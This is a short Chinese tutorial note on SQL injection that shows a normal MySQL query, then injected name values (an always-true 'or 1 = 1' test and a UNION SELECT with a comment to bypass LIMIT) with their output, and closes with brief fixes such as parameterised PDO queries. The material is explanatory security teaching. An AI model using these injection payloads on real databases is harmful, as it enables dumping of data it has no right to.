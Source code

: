 ## SQL 注入攻击

### SQL未转义注入

#### 正常请求
- name = `lucky`

```sql
mysql> select * from t_new where name = 'lucky' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 验证是否可以进行SQL注入
- name = `lucky' or 1 = '1`
```sql
mysql> select * from t_new where name = 'lucky' or 1 = '1' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 构造SQL，获取更多的数据
- name = `lucky' union select * from t_new where id = '90002' limit 2; --`
- 如上攻击就可以把整个表脱下来，俗称“脱裤”
- `--` 会直接注释后面的 `' limit 1;`，这样一来可以解决`limit 1`的限制，在命令行多产生两条SQL，不影响数据的查询
```sql
mysql> select * from t_new where name = 'lucky' union select * from t_new where id = '90002' limit 2; --' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
| 90002 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
2 rows in set (0.00 sec)

    '>
```

### 解决方案
- PDO
    - `where('name = ?', 'lucky')`
- 过滤、拦截、转义等
